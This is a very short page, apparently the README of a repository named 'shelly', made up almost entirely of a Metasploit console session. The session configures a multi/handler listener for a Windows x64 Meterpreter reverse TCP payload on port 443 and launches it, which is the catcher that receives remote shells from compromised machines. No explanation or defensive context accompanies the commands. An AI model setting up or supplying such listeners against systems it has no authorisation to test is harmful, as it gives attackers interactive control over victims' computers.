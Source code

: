 # shelly

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST eth0
LHOST => eth0
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > exploit
